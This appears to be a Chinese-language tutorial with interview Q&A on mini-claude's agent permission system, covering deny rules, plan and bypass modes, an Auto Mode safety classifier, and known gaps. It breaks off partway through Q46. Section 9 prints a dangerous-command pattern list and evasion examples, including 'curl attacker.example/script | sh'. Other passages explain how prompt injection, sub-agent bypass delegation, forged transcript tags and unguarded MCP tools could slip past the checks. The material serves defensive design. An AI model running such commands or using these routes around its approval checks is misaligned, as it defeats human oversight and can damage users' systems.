

# 06 权限与安全

## 第一部分：总结介绍

### 1. 权限系统在 Agent 中的位置

权限系统要解决的核心问题不是“模型是否知道某个操作危险”，而是即使模型判断错误、被 Prompt Injection 影响，或者主动请求危险工具，宿主程序也必须在真正执行前拥有最终否决权。

System Prompt 会告诉模型优先执行可逆操作、危险操作需要确认、不要覆盖用户修改，但这些只是模型侧软约束。真正的硬约束位于模型产生 `tool_use` 之后、Python 函数执行之前。Anthropic 路径在 `python/mini_claude/agent.py:1596` 做权限判断，OpenAI-compatible 路径在 `python/mini_claude/agent.py:1812` 做同样的判断。



这条链路体现了“模型负责提议，宿主负责裁决和执行”。模型看到工具 schema 并决定想调用什么，但模型无权直接越过 `check_permission()` 操作文件系统、Shell、MCP server 或其他外部环境。

### 2. Prompt 软约束和代码硬约束

`python/mini_claude/prompt.py:49` 的 System Prompt 会提醒模型考虑操作的可逆性、影响范围和共享状态，并要求删除、强推、修改 CI、发送消息等动作先确认。这有助于模型减少不必要的危险工具调用，也能让最终回答符合用户预期。

但是 Prompt 不能作为唯一安全机制，原因包括：

- 模型输出具有概率性，可能忽略或误解规则。
- 项目文件、网页、工具结果可能包含 Prompt Injection。
- 模型可能错误地认为用户已经授权。
- 模型可能通过另一个工具或子 Agent 间接完成同一动作。
- 未来更换模型后，遵循 Prompt 的稳定性可能变化。

因此 Prompt 适合做行为引导，确定性的 Python 权限代码才负责执行边界。Plan Mode 就是典型例子：Prompt 告诉模型只规划不修改，`permission_mode="plan"` 则在代码层拒绝写工具和 Shell。两层必须同时存在。

### 3. 权限模式从哪里进入 Agent

CLI 在 `python/mini_claude/__main__.py:21` 定义：

```python
parser.add_argument("--yolo", "-y", action="store_true")
parser.add_argument("--plan", action="store_true")
parser.add_argument("--accept-edits", action="store_true")
parser.add_argument("--dont-ask", action="store_true")
parser.add_argument("--auto", action="store_true")
```

`_resolve_permission_mode()` 将参数转换为字符串，并传给 `Agent(permission_mode=...)`。当前支持：

```text
default
plan
acceptEdits
bypassPermissions
dontAsk
auto
```

CLI 只负责选择全局策略，真正判断发生在每个工具调用上。也就是说，即使启动时选择了 `default`，每个工具仍要结合工具名、参数、配置规则和当前状态单独判断。

若用户同时传入多个权限参数，当前代码按 `_resolve_permission_mode()` 的判断顺序选择第一个匹配项，不会报冲突。更严格的 CLI 可以使用 `argparse` mutually exclusive group，让互斥模式同时出现时直接报错。

### 4. `check_permission()` 的真实优先级

统一权限入口位于 `python/mini_claude/tools.py:638`。当前 Python 完整版的准确执行顺序是：

```text
1. deny 配置规则
2. Plan Mode 硬限制
3. bypassPermissions
4. allow 配置规则
5. 内置只读工具
6. enter_plan_mode / exit_plan_mode
7. acceptEdits
8. 内置危险操作判断
9. dontAsk 将 confirm 转换成 deny
10. 默认 allow
```

这个顺序很重要。教程中的阶段性代码可能将 bypass 放在更前面，但当前完整实现已经调整为 deny 和 Plan Mode 优先。

#### 第一步：deny 规则

```python
rule_result = _check_permission_rules(tool_name, inp)
if rule_result == "deny":
    return {
        "action": "deny",
        "message": f"Denied by permission rule for {tool_name}",
    }
```

Deny 在所有 mode shortcut 之前，因此 `--yolo` 也无法覆盖显式 deny。这是 deny-overrides 策略，可以让宽泛 allow 和精确 deny 同时生效。

#### 第二步：Plan Mode

```python
if mode == "plan":
    if tool_name in EDIT_TOOLS:
        if plan_file_path and file_path == plan_file_path:
            return {"action": "allow"}
        return {"action": "deny"}
    if tool_name == "run_shell":
        return {"action": "deny"}
```

Plan Mode 只允许写当前计划文件，拒绝其他 `write_file`、`edit_file` 和所有 Shell。这一层高于 allow 和 bypass，保证只读规划契约不能被普通配置放开。

#### 第三步：bypassPermissions

```python
if mode == "bypassPermissions":
    return {"action": "allow"}
```

它会跳过后续危险命令检查和用户确认，但不会跳过前面的 deny 规则。因为 mode 本身只能有一个值，所以进入动态 Plan Mode 后当前 mode 会变成 `plan`，也不会继续走 bypass。

#### 第四步：allow、只读工具和 acceptEdits

配置 allow 命中后直接允许。内置 `READ_TOOLS` 默认允许，`enter_plan_mode` 和 `exit_plan_mode` 默认允许。`acceptEdits` 会直接允许 `write_file` 和 `edit_file`。

#### 第五步：内置危险操作检测

当前只对三类情况要求确认：

- `run_shell` 命中危险命令正则。
- `write_file` 的目标文件不存在。
- `edit_file` 的目标文件不存在。

若当前 mode 是 `dontAsk`，确认会被转换成拒绝；其他 mode 返回 `confirm`。所有条件都未命中时默认允许。

### 5. 六种权限模式的准确语义

| 模式 | 只读工具 | 已存在文件编辑 | 创建新文件 | 普通 Shell | 危险 Shell |
| --- | --- | --- | --- | --- | --- |
| `default` | 允许 | 允许 | 确认 | 允许 | 确认 |
| `plan` | 允许 | 仅计划文件 | 仅计划文件 | 拒绝 | 拒绝 |
| `acceptEdits` | 允许 | 允许 | 允许 | 允许 | 确认 |
| `bypassPermissions` | 允许 | 允许 | 允许 | 允许 | 允许 |
| `dontAsk` | 允许 | 允许 | 自动拒绝 | 允许 | 自动拒绝 |
| `auto` | 部分直接允许 | 分类器判断 | 分类器判断 | 分类器判断 | 分类器判断 |

`dontAsk` 很容易被误解。它不是只读模式，也不是拒绝所有有副作用操作，而是把原本需要人工确认的操作自动拒绝。普通 Shell 和已有文件编辑仍可能执行。它主要解决 CI 或 headless 环境无法弹出交互确认的问题。

`acceptEdits` 的含义是自动批准编辑类工具，但危险 Shell 仍需确认。`bypassPermissions` 跳过普通确认，却仍受显式 deny 限制。`plan` 是最明确的只读模式，但当前只专门限制文件编辑和 Shell，对具有外部副作用的未知工具仍有边界，后文会详细说明。

### 6. 权限规则如何加载

`load_permission_rules()` 位于 `python/mini_claude/tools.py:583`，读取两个文件：

```text
~/.claude/settings.json
<cwd>/.claude/settings.json
```

用户级和项目级规则会追加到同一组 allow/deny 数组中，不是项目配置覆盖用户配置：

```python
for settings in [user_settings, project_settings]:
    for rule in settings["permissions"].get("allow", []):
        allow.append(_parse_rule(rule))
    for rule in settings["permissions"].get("deny", []):
        deny.append(_parse_rule(rule))
```

结果缓存在模块级 `_cached_rules`。一个会话可能执行几十或几百次工具调用，缓存可以避免每次都读取和解析 JSON。但会话期间修改 settings 后不会自动生效，除非调用 `reset_permission_cache()` 或重启进程。

配置文件读取失败、JSON 损坏或权限不足时，`_load_settings()` 返回 `None`。这提高了可用性，却属于 fail-open：损坏的 deny 配置会被忽略。生产系统应至少记录警告；企业强制策略损坏时更适合 fail closed。

### 7. 规则格式和匹配逻辑

示例配置：

```json
{
  "permissions": {
    "allow": [
      "read_file",
      "run_shell(pytest*)",
      "run_shell(git status)"
    ],
    "deny": [
      "run_shell(rm -rf*)",
      "write_file(.env)"
    ]
  }
}
```

`_parse_rule()` 将规则转换为：

```python
"read_file"
# {"tool": "read_file", "pattern": None}

"run_shell(pytest*)"
# {"tool": "run_shell", "pattern": "pytest*"}
```

无 pattern 表示匹配该工具的所有调用。pattern 以 `*` 结尾时执行前缀匹配，否则执行精确匹配。它不是真正的完整 glob：中间的 `*`、`?` 和字符集合没有特殊语义。

`_matches_rule()` 对 `run_shell` 匹配 `command`，对文件工具匹配 `file_path`：

```python
if tool_name == "run_shell":
    value = inp.get("command", "")
elif "file_path" in inp:
    value = inp["file_path"]
else:
    return True
```

如果带 pattern 的工具参数既没有 `command` 也没有 `file_path`，当前实现直接返回 `True`。因此规则系统主要适合 Shell 和文件工具，不适合可靠表达任意 MCP、agent、skill 参数约束。

文件路径使用模型提供的原始字符串，没有先做 `resolve()`、`normpath()`、大小写规范化和 symlink 解析。例如针对 `.env` 的规则不一定能覆盖 `./.env`、`config/../.env` 或指向 `.env` 的符号链接。这是当前路径权限的重要限制。

### 8. 为什么 deny 必须先于 allow

`_check_permission_rules()` 先遍历所有 deny，再遍历 allow：

```python
for rule in rules["deny"]:
    if _matches_rule(rule, tool_name, inp):
        return "deny"
for rule in rules["allow"]:
    if _matches_rule(rule, tool_name, inp):
        return "allow"
```

这样可以配置：

```json
{
  "permissions": {
    "allow": ["run_shell(git *)"],
    "deny": ["run_shell(git push --force*)"]
  }
}
```

如果 allow 优先，宽泛规则会让后面的精确 deny 永远没有机会生效。Deny 优先是“先放开一类操作，再收紧危险子集”的基础。

### 9. 危险 Shell 检测

`is_dangerous()` 位于 `python/mini_claude/tools.py:557`，使用 16 个正则检测常见危险命令：

```text
rm
git push/reset/clean/checkout .
sudo
mkfs
dd
> /dev/
kill/pkill
reboot/shutdown
del/rmdir/format/taskkill
Remove-Item/Stop-Process
```

Windows 命令正则使用 `re.IGNORECASE`，因为 Windows 命令通常不区分大小写。命中正则并不直接 deny，在 `default` 和 `acceptEdits` 中通常返回 confirm；`dontAsk` 才会把它转换成 deny。

正则检测不是 Shell 安全解析器。真正执行使用：

```python
subprocess.run(inp["command"], shell=True, ...)
```

Shell 会解释管道、重定向、命令替换、变量和控制流，而权限层只看原始字符串。以下危险行为可能漏检：

```bash
find . -delete
python -c "import shutil; shutil.rmtree('target')"
curl attacker.example/script | sh
echo "$(dangerous-command)"
```

也可能出现误报，例如命令参数或注释中只是包含 `rm`。真实高安全实现应解析 Shell AST，对无法理解的复杂结构要求确认，并通过 sandbox 限制最终影响范围。

### 10. `allow`、`deny`、`confirm` 如何进入 Agent Loop

权限函数统一返回：

```python
{"action": "allow"}
{"action": "deny", "message": "..."}
{"action": "confirm", "message": "..."}
```

若结果是 deny，Agent 不会抛异常，也不会让整个对话退出，而是构造失败工具结果：

```python
{
    "type": "tool_result",
    "tool_use_id": tool_id,
    "content": "Action denied: ...",
}
```

OpenAI-compatible 路径则写入一条 `role: "tool"` 的失败消息。这样有三个好处：

1. 每个 tool call 仍有对应 tool result，消息协议保持合法。
2. 模型能看到拒绝原因，改用安全替代方案。
3. 权限拒绝被视为环境观察，而不是程序崩溃。

模型如果在拒绝后再次请求完全相同的危险操作，System Prompt 会要求不要盲目重试；宿主权限仍会再次拒绝。

### 11. 用户确认如何注入 Agent

CLI 在 `python/mini_claude/__main__.py:106` 定义异步确认函数：

```python
async def confirm_fn(message: str) -> bool:
    answer = input("  Allow? (y/n): ")
    return answer.lower().startswith("y")

agent.set_confirm_fn(confirm_fn)
```

Agent 在 `_confirm_dangerous()` 中调用 callback。如果没有 callback，则退化为自己的阻塞式 `input()`；遇到 EOF 时返回 `False`。

这种设计实现了依赖反转：权限核心只依赖一个 `Callable[[str], Awaitable[bool]]`，不知道审批来自 CLI、GUI、Web 页面还是自动化测试。未来更换 UI 不需要改 Agent Loop。

当前 `input()` 是同步阻塞调用，放在 async 函数中会阻塞事件循环。不过等待用户确认期间通常不希望其他危险动作继续运行，因此简单 CLI 中可以接受。复杂系统可使用异步 UI 通道，并暂停与该审批相关的任务。

### 12. 会话级确认白名单

Agent 初始化时创建：

```python
self._confirmed_paths: set[str] = set()
```

普通模式下，用户确认后把 `perm["message"]` 加入集合。后续出现相同 message 时直接执行，不再重复询问。

虽然变量名叫 `_confirmed_paths`，实际保存的可能是：

```text
rm -rf ./build
write new file: src/new.py
```

它更准确的名字应该是 `_confirmed_actions`。当前 key 是字符串，完全相同才复用；`rm -rf ./build` 和 `rm -rf build` 会被视为不同操作。

这个白名单只存在当前 Agent 实例中，不会持久化到 Session。重启或 `--resume` 后需要重新确认，这是偏安全的选择，避免旧授权在新的环境状态下继续生效。

Auto Mode 的 confirm 不会加入白名单。分类器返回的 message 是风险原因，不是稳定的操作标识；若缓存“Credential Leakage”之类原因，可能错误放行另一个完全不同的泄密动作。

### 13. Auto Mode 的定位

Auto Mode 不是“自动允许”，而是用独立 LLM 分类器代替大部分人工确认。入口位于 `python/mini_claude/agent.py:857`，规则和 transcript 构建位于 `python/mini_claude/autonomy.py:258`。

它主要防范：

- Prompt Injection：模型被文件、网页或工具结果诱导执行危险动作。
- Scope Creep：模型超出用户任务范围继续操作。
- Accidental Damage：模型不了解共享环境和 blast radius。

分类器与主模型分离。主模型负责提出动作，安全分类器负责审核动作，避免同一个模型既申请又批准。

### 14. Auto Mode 的硬规则和 Fast Path

`_classify_tool_call()` 首先调用普通 `check_permission(..., "default")`。如果命中显式 deny，立即拒绝，分类器不能推翻。

然后检查 `AUTO_MODE_FAST_PATH_TOOLS`：

```python
{
    "read_file",
    "list_files",
    "grep_search",
    "tool_search",
    "enter_plan_mode",
    "exit_plan_mode",
}
```

这些工具被认为没有需要分类器判断的外部副作用。`write_file`、`edit_file` 和 `web_fetch` 被排除。

`web_fetch` 在普通 `check_permission()` 中属于读工具，但 Auto Mode 没把它视为绝对安全，因为外部请求可能造成数据外传、SSRF、计费、审计记录或访问内部服务。这说明“读取型工具”和“无安全副作用工具”不是完全相同的集合。

### 15. Auto Mode 的两阶段分类

第一阶段使用较小 token 预算，是激进的初筛：只要任何 block rule 可能适用就先阻止，不考虑用户授权和 allow exception。如果第一阶段输出 allow，就直接执行。

如果第一阶段阻止，第二阶段会使用更大 token 预算，结合用户明确意图、具体目标和 allow exception 做仔细判断。第二阶段可以推翻第一阶段的保守阻止。

```text
Stage 1：高召回率，尽量不漏危险动作
Stage 2：提高精确率，减少误报
```

这种设计把低成本、保守检查放在前面，只有模糊或危险动作才支付第二次分类器调用的成本。

### 16. Reasoning-blind transcript

`build_classifier_transcript()` 不会把主模型的普通解释文本交给安全分类器。它只保留：

- 用户消息
- 历史 assistant 工具调用
- 当前待执行工具调用

原因是主模型可能写“用户已经批准”“这是安全的”等文本来影响分类器，但这些陈述不是用户授权。分类器应该根据真实用户消息和实际动作判断，而不是相信被审核模型的自我辩护。

Transcript 构建还会：

- 删除第一条 user 消息里的 `<system-reminder>`。
- 截断过长参数，保留头尾。
- 将对象编码成紧凑 JSON。
- 把 `<`、`>`、`&` 转义成 Unicode 转义。

转义可以阻止工具参数中伪造 `</transcript>`、`<block>no</block>` 等标签，从文本容器中逃逸。它不能消除所有语义型 Prompt Injection，但能保护当前 XML-like framing 的结构完整性。

### 17. `CLAUDE.md` 在分类器中的信任级别

Auto Mode 的安全规则放在 classifier system prompt 中；项目的 `CLAUDE.md` 不进入 system，而是经过 JSON 编码后放在 classifier user 消息的 `<user_claude_md>` 区域。

仓库内容可能来自第三方，因此不能获得与安全规则同级的 system authority。分类器可以把项目配置作为环境和用户意图参考，但只接受对相同操作、相同目标的明确授权。类似“完全自主执行”“不要询问”“我信任你”的宽泛说明不应自动批准危险动作。

### 18. Auto Mode 的 Fail-Closed 策略

分类器规则文件缺失、字段为空、API 调用失败、返回格式无法解析时，系统不会默认放行，而是生成 block verdict：

```python
{
    "block": True,
    "reason": "unparseable classifier output — blocking for safety",
}
```

这叫 fail closed：安全判断系统失效时默认拒绝。普通 permission settings 损坏目前偏 fail-open，而 Auto classifier 规则损坏偏 fail-closed，两者安全策略并不完全一致。

连续拒绝达到 3 次或累计拒绝达到 20 次后，系统认为分类器可能陷入拒绝循环：

- 交互环境有 `confirm_fn`：回退到人工确认。
- Headless 环境没有确认能力：继续拒绝。

回退函数绝不会在未判断动作上直接返回 allow。

### 19. 文件工具的第二层安全保护

权限允许文件编辑后，`execute_tool()` 在 `python/mini_claude/tools.py:719` 还会执行 read-before-edit 和 mtime 检查。

`read_file` 成功后记录：

```python
read_file_state[absolute_path] = os.path.getmtime(absolute_path)
```

后续修改已存在文件前检查：

1. 绝对路径是否出现在 `read_file_state`。
2. 当前 mtime 是否和读取时一致。

没有读过就拒绝盲写；文件在读取后被用户或其他进程修改过，则要求重新读取。写入成功后更新记录的 mtime。

`edit_file` 还要求 `old_string` 能找到且只出现一次。它解决的是修改定位错误，mtime 解决的是基于旧版本覆盖，read-before-edit 解决的是模型不了解文件，permission 解决的是用户是否授权。四者属于不同层次，不能互相替代。

### 20. 流式工具提前执行与权限

Anthropic streaming 中，完整的工具 block 到达后，部分并发安全工具可以在模型继续生成时提前启动。但 `_on_tool_block()` 仍然先调用 `check_permission()`，只有返回 allow 才会 `asyncio.create_task()`。

Auto Mode 下，只有 `AUTO_MODE_FAST_PATH_TOOLS` 能提前启动。`web_fetch` 虽然在 `CONCURRENCY_SAFE_TOOLS` 中，却不在 Auto fast path，因此必须等分类器审核。

这里需要区分：

- Concurrency safety：多个操作能否并行，不会互相破坏状态。
- Permission safety：当前用户和环境是否允许执行。
- Idempotency：流重试时重复执行会不会产生额外副作用。

一个工具满足并发安全，不代表可以跳过权限，也不代表重复执行绝对安全。

### 21. 子 Agent 的工具限制

`python/mini_claude/subagent.py` 定义三类内置子 Agent：

- `explore`：只有 `read_file`、`list_files`、`grep_search`。
- `plan`：同样只有只读工具，并使用计划分析 Prompt。
- `general`：拥有除 `agent` 外的大部分内置工具。

工具裁剪属于 capability restriction：模型根本看不到未授权工具 schema，比只在 Prompt 中要求“不使用写工具”更可靠。自定义 Agent 也可以通过 frontmatter 中的 `allowed-tools` 限制工具集合。

### 22. 子 Agent 的权限继承边界

`Agent._child_permission_mode()` 当前实现是：

```python
if self.permission_mode == "plan":
    return "plan"
if self.permission_mode == "auto":
    return "auto"
return "bypassPermissions"
```

Plan 和 Auto 必须传给子 Agent，避免主 Agent 把被拒绝的动作包装成 sub-agent 任务后绕过限制。Auto 子 Agent 的每个工具调用仍会通过分类器。

但当前实现仍有明显边界：父 Agent 在 `default`、`acceptEdits` 或 `dontAsk` 下创建 general 子 Agent 时，子 Agent 使用 `bypassPermissions`。虽然显式 deny 仍有效，explore/plan 子 Agent 也只有只读工具，但 general 子 Agent 可能执行原本需要人工确认的危险操作。

这形成权限洗白风险：主 Agent 自己不能直接执行某操作，却可能让 general 子 Agent 执行。更严格的设计应让子 Agent 继承父 mode、逐工具回调父 Agent 审批，或者给每个子任务签发只包含指定工具、路径和操作的 capability token。

Skill fork 也使用 `_child_permission_mode()`，因此存在类似边界。`allowed-tools` 能缩小工具集合，但未指定时仍可能获得较宽权限。

### 23. MCP 工具与权限系统

MCP 工具在第一次 `chat()` 时被动态发现并追加到 `self.tools`。模型调用后，Agent 仍然会先走统一权限入口，执行时再由 `_mcp_manager.call_tool()` 转发。

但当前 `check_permission()` 只明确认识：

- `READ_TOOLS`
- `EDIT_TOOLS`
- `run_shell`
- plan mode 工具

其他未知工具最终默认 allow。因此一个具有外部副作用的 MCP 工具，例如发送邮件、删除云资源、写数据库或发布消息，如果没有配置 deny rule，在 `default` 模式下可能直接执行。

这说明“统一经过权限函数”不等于“获得正确的风险分类”。权限系统必须知道工具语义。成熟设计可以要求 MCP 工具携带安全元数据：

```python
{
    "read_only": False,
    "destructive": True,
    "external_side_effect": True,
    "requires_confirmation": True,
}
```

另一种保守策略是未知工具默认 confirm，而不是默认 allow。

Plan Mode 当前只明确阻止文件编辑和 Shell。一个能修改远程状态的 MCP 工具仍可能通过，这说明 Plan Mode 的只读契约尚未覆盖所有工具类别。真正的 Plan Mode 应按“是否有副作用”判断，而不是只按几个工具名判断。

### 24. `web_fetch` 的安全边界

`_web_fetch()` 只允许 `http://` 和 `https://`，阻止 `file://` 将网页工具变成本地文件读取通道。这是必要的协议限制。

但它没有限制：

- `localhost`
- `127.0.0.1`
- 私网 IP
- 云元数据地址
- DNS 重绑定
- 重定向后的最终目标

因此仍可能产生 SSRF。网页内容本身也不可信，可能包含 Prompt Injection。System Prompt 会提醒模型把外部结果视为不可信数据，但宿主层仍应限制网络目标、标记来源，并避免将网页指令当成用户授权。

### 25. 当前实现不是操作系统沙箱

mini-claude 没有操作系统级隔离。权限允许后，以下操作会在当前用户权限范围内真实发生：

```python
subprocess.run(command, shell=True)
Path(path).write_text(...)
urllib.request.urlopen(...)
```

当前实现缺少：

- 文件系统 workspace 边界
- macOS Seatbelt 或 Linux namespace
- 网络域名/IP allowlist
- CPU、内存、进程和磁盘配额
- `.git`、`.ssh`、凭据目录的强制保护
- Shell AST 分析
- symlink 逃逸保护
- 企业不可覆盖策略

因此正确表述是：项目实现了应用层权限闸门和若干纵深保护，但不是安全沙箱。权限系统决定“是否允许请求”，沙箱限制“即使执行了，最大能影响什么”。安全系统应同时具备两者。

### 26. TOCTOU 与路径问题

权限检查和工具执行不是一个原子操作。程序可能先判断某路径安全，然后在真正写入前，路径或符号链接被其他进程替换。这种“检查时安全、使用时已变化”的问题叫 TOCTOU（Time Of Check To Time Of Use）。

mtime 检查可以发现部分文件内容变化，但不能完全防止 symlink replacement、目录替换和更复杂竞态。更严格的文件操作应：

- 先 canonicalize 路径并验证位于 workspace。
- 限制符号链接穿越。
- 尽可能使用文件描述符相对操作。
- 写入时使用临时文件和原子 replace。
- 在沙箱中限制进程可访问目录。

### 27. 当前实现的主要安全边界

当前 Python 实现需要重点记住以下限制：

1. 危险 Shell 依赖正则，容易漏报和绕过。
2. 未知工具默认 allow，MCP 外部副作用难以判断。
3. general 子 Agent 在普通模式下使用 bypass，可能绕过确认。
4. Plan Mode 没有统一阻止具有副作用的 MCP 工具。
5. 路径规则没有 canonicalize，可能被 `./`、`..` 或 symlink 绕过。
6. permission 配置被缓存，运行时修改不会自动生效。
7. settings 损坏时静默忽略，deny 策略可能 fail-open。
8. `web_fetch` 没有阻止 localhost、私网和云元数据地址。
9. 检查与执行之间存在 TOCTOU。
10. 没有系统沙箱，权限逻辑一旦漏判，操作就真实执行。

这些问题不意味着当前设计没有价值。它已经展示了权限模式、配置规则、危险检测、确认、Auto classifier 和工具级安全检查如何组成纵深防御；但面试时应准确说明它是教学级应用层实现，而不是生产级安全边界。

### 28. 面试话术版本

这个项目的权限系统位于模型决策和工具执行之间。模型通过 System Prompt 获得安全行为指导，但真正的执行由宿主侧 `check_permission()` 控制。权限检查采用 deny 优先策略，先处理配置 deny，再处理 Plan Mode，然后根据 bypass、allow、只读工具、acceptEdits 和危险操作检测返回 allow、deny 或 confirm。拒绝不会让 Agent Loop 崩溃，而是作为 tool result 回填，让模型调整方案。普通确认使用会话级白名单避免重复询问，Auto Mode 则通过 reasoning-blind transcript 和两阶段 LLM 分类器判断非只读操作，分类异常时 fail closed。文件编辑还有 read-before-edit、mtime 和唯一字符串匹配保护。不过该项目仍是应用层教学实现，没有 Shell AST 和操作系统沙箱；MCP 风险元数据、子 Agent 权限继承和路径规范化也存在进一步完善空间。

## 第二部分：面试问答与追问补充

### Q1：权限系统在 Agent Loop 的哪个位置？

位于模型生成结构化工具调用之后、真正执行 Python 工具函数之前。模型负责提出动作，宿主权限系统负责裁决。

### Q2：为什么 System Prompt 不能作为唯一安全机制？

Prompt 是概率性软约束，模型可能忽略、误解或受到 Prompt Injection。确定性的宿主代码必须在执行边界再次检查。

### Q3：`check_permission()` 返回哪些结果？

返回 `allow`、`deny` 或 `confirm`。Allow 执行，deny 生成失败工具结果，confirm 请求用户批准后再决定。

### Q4：当前权限检查的优先级是什么？

Deny 配置规则最高，其次是 Plan Mode，然后是 bypass、allow、只读工具、plan 工具、acceptEdits、危险操作检查、dontAsk 和默认允许。

### Q5：为什么 deny 必须高于 allow？

宽泛 allow 后仍需用精确 deny 收紧危险子集。若 allow 优先，`allow run_shell` 会让所有 Shell deny 失效。

### Q6：`--yolo` 会绕过所有规则吗？

不会。当前实现先检查显式 deny 和 Plan Mode，再执行 bypass shortcut。

### Q7：为什么 `bypassPermissions` 仍应受 deny 约束？

Deny 可能代表用户、项目或管理员设置的不可突破边界；bypass 只表示跳过普通确认，不应覆盖硬性禁止。

### Q8：`dontAsk` 是否等于只读？

不是。它只把原本需要 confirm 的操作自动 deny，普通 Shell 和已有文件编辑仍可能执行。

### Q9：`acceptEdits` 会允许危险 Shell 吗？

不会自动允许。它只自动允许 `write_file` 和 `edit_file`，危险 Shell 仍进入 confirm。

### Q10：default 模式修改已有文件为什么不确认？

当前权限策略把已有文件编辑默认视为可执行动作，主要通过 read-before-edit、mtime 和唯一字符串匹配降低误改风险。它是项目的安全取舍，不代表所有产品都应这样设计。

### Q11：Plan Mode 为什么同时需要 Prompt 和权限限制？

Prompt 引导模型改为探索和写计划；权限限制保证模型即使请求写工具也不能执行。只靠其中一层都不完整。

### Q12：Plan Mode 唯一允许编辑什么？

允许编辑当前 Agent 为该会话生成的计划文件，其他 `write_file` 和 `edit_file` 被拒绝，Shell 全部被拒绝。

### Q13：为什么权限拒绝要作为 tool result 返回？

这样消息协议保持完整，模型能够看到拒绝原因并选择安全替代方案，不会因为权限事件导致整个 Agent Loop 崩溃。

### Q14：配置规则从哪里加载？

从用户级 `~/.claude/settings.json` 和 cwd 下项目级 `.claude/settings.json` 加载，两者规则追加合并。

### Q15：权限规则为什么需要缓存？

每轮可能调用多个工具，重复读取和解析 JSON 浪费 IO。缓存提高性能，但配置运行时修改后需要显式失效。

### Q16：settings 文件损坏时当前实现怎么处理？

返回 `None` 并忽略该文件。可用性较高，但 deny 配置失效时属于 fail-open，生产系统应告警或对强制策略 fail closed。

### Q17：规则 pattern 支持完整 glob 吗？

不支持。当前只支持精确匹配和“末尾 `*`”的简单前缀匹配。

### Q18：`run_shell(np*)` 有什么问题？

它会同时匹配 `npm`、`npx` 以及其他以 `np` 开头的命令。前缀规则必须足够精确。

### Q19：为什么路径规则需要 canonicalization？

同一文件可能通过 `.env`、`./.env`、`a/../.env` 或符号链接访问。比较原始字符串容易被路径变形绕过。

### Q20：危险命令检测为什么不能只用正则？

Shell 有变量、命令替换、管道、重定向和控制流。正则无法可靠判断真正执行的 AST，容易漏报和误报。

### Q21：为什么项目仍使用正则危险检测？

这是教学级最小实现，代码简单、跨平台、能覆盖常见高风险命令。它展示机制，但不能替代生产级 Shell 解析和沙箱。

### Q22：用户确认为什么通过 callback 注入？

让 Agent 不依赖具体 UI。CLI、Web、GUI 和测试都可以提供自己的异步审批函数。

### Q23：会话白名单保存的是什么？

保存确认消息字符串，例如完整危险命令或“write new file: 路径”。相同字符串再次出现时不重复询问。

### Q24：确认白名单为什么不持久化到 Session？

旧授权可能在新的工作目录、代码状态或时间环境中不再安全。恢复时重新确认是更保守的策略。

### Q25：Auto Mode 是什么？

它使用独立 LLM 安全分类器审核非 fast-path 工具，代替大部分人工确认，但显式 deny 仍是硬底线。

### Q26：为什么主模型不能自己批准自己的工具调用？

同一个模型既提出动作又批准动作存在利益冲突，也容易被自身生成的解释影响。独立分类器提供额外审查边界。

### Q27：什么是 Auto Mode Fast Path？

被认为无须分类的低副作用工具集合，例如读文件、列文件、搜索和 tool_search。它们可以直接 allow，减少分类器成本和延迟。

### Q28：为什么 `web_fetch` 不在 Auto Fast Path？

外部请求可能造成数据外传、SSRF、费用、审计或访问内部服务，因此不能仅因为它是“读取”就直接放行。

### Q29：Auto Mode 为什么使用两阶段分类？

第一阶段保守筛查以减少漏报；第二阶段结合明确用户意图减少误报，是召回率、精确率和成本之间的平衡。

### Q30：什么是 reasoning-blind transcript？

分类器看用户消息和工具调用，但不看主模型的普通解释和推理，防止主模型用“用户已同意”等自述影响安全判断。

### Q31：为什么 transcript 要转义 `<`、`>` 和 `&`？

避免恶意工具参数伪造 XML-like 边界或输出标签，保护 `<transcript>` 和 `<block>` 结构不被文本逃逸破坏。

### Q32：为什么 `CLAUDE.md` 不放进 classifier system？

仓库内容可能不可信。放在 system 会让项目文件获得与安全规则同级权威，因此只把它作为经过编码的 user context。

### Q33：什么是 fail closed？

安全系统无法判断、规则文件损坏或分类器输出无法解析时默认拒绝，而不是默认允许。

### Q34：Auto Mode 连续拒绝阈值有什么作用？

连续 3 次或累计 20 次拒绝说明分类器可能陷入循环。交互环境回退人工确认，headless 环境继续拒绝。

### Q35：read-before-edit 属于权限系统吗？

它是执行层安全保护，不负责判断用户授权，而是确保 Agent 读过当前文件并了解内容。

### Q36：mtime 检查解决什么问题？

检测 Agent 读取后文件是否被用户或其他进程修改，避免基于旧版本覆盖新内容。

### Q37：唯一 `old_string` 匹配解决什么问题？

避免同一字符串出现多次时修改错误位置。它保护修改定位，不替代权限判断。

### Q38：为什么流式提前执行仍要做权限检查？

流式优化只减少等待时间，不改变安全边界。工具 block 完成不代表用户已经授权执行。

### Q39：并发安全是否等于权限安全？

不等于。并发安全描述操作之间是否能同时运行；权限安全描述当前用户和环境是否允许执行。

### Q40：子 Agent 为什么可能成为权限绕过通道？

如果父 Agent 的操作需要确认，而 general 子 Agent 使用 bypass，就可能通过委派执行同一动作。权限应逐工具继承或统一由父层审批。

### Q41：explore 和 plan 子 Agent 为什么更安全？

它们的工具 schema 只包含 `read_file`、`list_files` 和 `grep_search`。模型根本看不到写和 Shell 工具，属于能力层限制。

### Q42：Skill fork 是否也需要继承权限？

需要。Skill fork 创建新的 Agent 并使用 `_child_permission_mode()`，如果权限过宽，同样可能绕过主 Agent 的普通确认。

### Q43：MCP 工具为什么是当前权限系统的重要缺口？

MCP 工具语义由外部 server 定义，而当前 `check_permission()` 对未知工具默认 allow，无法判断发送消息、写数据库和删除云资源等副作用。

### Q44：如何改进 MCP 权限？

要求 MCP 工具携带 read-only、destructive、external-side-effect 等风险元数据，或对未知工具默认 confirm，再允许用户编写精确规则。

### Q45：Plan Mode 能完全阻止 MCP 写操作吗？

当前不能。它主要按工具名阻止文件编辑和 Shell，具有副作用的未知 MCP 工具可能仍被默认允许。

### Q46：`web_fetch` 只允许 HTTP/HTTPS 就安全吗？

